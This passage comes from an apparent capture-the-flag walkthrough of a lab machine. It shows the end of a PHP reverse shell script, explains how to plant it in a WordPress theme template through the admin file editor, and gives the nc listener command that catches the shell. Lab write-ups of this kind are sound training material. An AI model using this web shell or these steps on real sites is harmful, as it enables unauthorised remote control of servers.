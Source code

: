 ```
      fwrite($sock, $input);
    }

    // If we can read from the process's STDERR
    // send data down tcp connection
    if (in_array($pipes[2], $read_a)) {
      if ($debug) printit("STDERR READ");
      $input = fread($pipes[2], $chunk_size);
      if ($debug) printit("STDERR: $input");
      fwrite($sock, $input);
    }
  }

  fclose($sock);
  fclose($pipes[0]);
  fclose($pipes[1]);
  fclose($pipes[2]);
  proc_close($process);

  // Like print, but does nothing if we've daemonised ourself
  // (I can't figure out how to redirect STDOUT like a proper daemon)
  function printit ($string) {
    if (!$daemon) {
      print "$string
";
    }
  }

  ?> 
  
```

In the administration pannel you can go to "Apariencias>Editor de Archivos de temas". Once there, select a php template that is called when a page is loaded in the web site. In my case, I chose the template single.php. At the end of the file, I copy paste my php reverse shell and save the changes with the "Actualizar" button.

Now, from your attacker machine, run:

```bash
nc -lnvp 12345
```

And, in the browser go to a page that you know that calls the template in which you have saved your php reverse shell. In my case, having used singular.php, I can browse to: http://192.168.57.3/womenhackers/carol-shaw/ to launch my reverse shell.

## 11. Get user.txt flag

For that you can gather some system information. Run:

```bash
whoami
id
```
